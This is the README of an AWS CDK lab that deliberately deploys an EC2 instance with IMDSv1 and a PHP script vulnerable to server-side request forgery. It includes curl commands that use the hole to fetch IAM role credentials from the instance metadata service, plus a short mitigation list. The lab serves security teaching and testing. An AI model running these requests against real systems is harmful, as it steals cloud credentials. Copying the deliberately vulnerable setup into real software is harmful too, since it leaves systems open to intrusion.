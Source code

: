 # ALB + Private EC2 SSRF Vulnerability Demo

This CDK project demonstrates SSRF (Server-Side Request Forgery) vulnerability against IMDSv1 in a private subnet EC2 instance behind an Application Load Balancer.

## ⚠️ Security Warning

**This project is for educational and testing purposes only.** It intentionally creates vulnerable infrastructure with:
- IMDSv1 enabled (vulnerable to SSRF attacks)
- A PHP script with SSRF vulnerability
- Insecure network configurations

**DO NOT deploy this in production environments.**

## Architecture

- VPC with public and private subnets
- Application Load Balancer in public subnet
- EC2 instance in private subnet with IMDSv1 enabled
- Vulnerable PHP script for SSRF testing
- SSM endpoints for remote access

![Architecture](draw/architecture.png)

## Prerequisites

- AWS CLI configured
- AWS CDK installed (`npm install -g aws-cdk`)
- Node.js and npm

## Deployment

```bash
npm install
cdk bootstrap
cdk deploy
```

## Testing SSRF Attack

After deployment, get the ALB DNS name from the output and test:

```bash
# Get IAM role credentials via SSRF
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]"
```

## Cleanup

```bash
cdk destroy
```

## Security Mitigation

To secure this setup:
1. Enable IMDSv2 only (`requireImdsv2: true`)
2. Remove the vulnerable PHP script
3. Implement proper input validation
4. Use WAF to block malicious requests